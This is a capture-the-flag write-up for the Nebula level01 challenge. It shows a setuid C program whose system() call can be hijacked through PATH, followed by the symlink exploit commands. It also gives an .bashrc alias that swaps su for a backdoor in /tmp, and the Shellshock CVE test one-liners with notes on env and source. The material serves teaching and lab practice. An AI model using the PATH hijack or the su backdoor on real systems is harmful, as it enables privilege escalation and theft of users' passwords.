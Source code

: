 # level01

#### About

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.


#### Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
	gid_t gid;
	uid_t uid;
	gid = getegid();
	uid = geteuid();

	setresgid(gid, gid, gid);
	setresuid(uid, uid, uid);

	system("/usr/bin/env echo and now what?");
}
```

#### Solutions
```
cd /home/level01/
export PATH=/home/level01:$PATH
ln -s /bin/getflag /home/level01/echo
/home/flag01/flag01
```

#### SU backdoor
```
vim ~/.bashrc
++ alias su=/tmp/su_backdoor
su 
Password:
```

#### Recommend

env 
    env [OPTION]... [NAME=VALUE] [COMMAND [ARGS]...] 

让命令在已修改的环境变量下运行。'VARIABLE=VALUE' 设置环境变量VARIABLE的  
值为VALUE. VALUE的值可以为空，将变量的值设为空，并不等同于移除声明的变  
量.整个执行顺序: 从左到右，如果两次声明的是同一变量，则第一个声明会被第  
二个覆盖.  
如果未指定env后面的命令，将输出环境变量，类似执行了'printenv'程序.  
 
0    ---- if no COMMAND is specified and the environment is output.  
125  ---- if `env' itself fails  
126  ---- if COMMAND is found but cannot be invoked  
127  ---- if COMMAND cannont be found  
the exit status of COMMAND otherwise  


source 
    source filename [arguments]  

source 命令，可以将加载文件中的函数，到当前shell脚本或命令行环境.  
source 命令，可以强制让一个脚本去影响当前的环境，export则只能影响其子环境.  
例如:   
    source ~/.bashrc 等效于 ~/.bashrc  

   
BASH shellshock  


CVE-2014-6271  

    env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id  

CVE-2014-6277  

    will segfault if vulnerable  

    env X='() { x() { _; }; x() { _; } <<a; }' bash -c :  
    Additional discussion on fulldisclosure: http://seclists.org/fulldisclosure/2014/Oct/9  
    Additional information: http://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html  

CVE-2014-6278  

    env X='() { _; } >_[$($())] { echo CVE-2014-6278 vulnerable; id; }' bash -c :  
    Additional information: http://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html  

CVE-2014-7169  

    will create a file named echo in cwd with date in it, if vulnerable  

    env X='() { (a)=>\' bash -c "echo date"; cat echo  

CVE-2014-7186  

    bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo "CVE-2014-7186 vulnerable, redir_stack"  

CVE-2014-7187  

    (for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash || echo "CVE-2014-7187 vulnerable, word_lineno"  


